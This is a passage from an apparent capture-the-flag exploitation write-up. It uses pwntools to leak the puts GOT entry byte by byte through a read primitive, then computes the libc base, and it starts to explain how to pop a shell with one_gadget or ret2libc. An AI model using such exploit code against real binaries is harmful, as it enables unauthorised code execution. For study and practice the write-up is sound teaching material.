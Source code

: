Again, the GOT is hardcoded because PIE has been disabled for this binary:

![](img/ida3.png)

You can either manually enter this address into your script or you can use pwntools to grab it for you.

```python
GOT_PLT_PUTS = elf.got['puts'] # == 0x602018
```

Now lets leak the `puts` address, notice we call `perf_read` 8 times because it only is able to read a byte at a time.
```python
# leak puts address
puts_leak = 0
for i in range(8):
    puts_leak += perf_read(p, GOT_PLT_PUTS+i) << (8*i)
log.info('Leaked puts address: 0x%x' % puts_leak)
```

Then we can simply calculate the base address of libc with the following code:
```python
# Calculate base address
libc.address = puts_leak - libc.symbols['puts']
log.info('Libc base address: 0x%x' % libc.address)
```

## Popping a shell

There are at least 2 different ways to pop a shell that I'm aware of:
- Use the stack address to build a ROP chain that can perform a ret2libc
- Use [one_gadget](https://github.com/david942j/one_gadget) to overwrite the call to `exit`.

I have included an example of both implementations, but for the purpose of this writeup I will be showing how to use one_gadget.

Before we begin, let's get one_gadget working locally first.

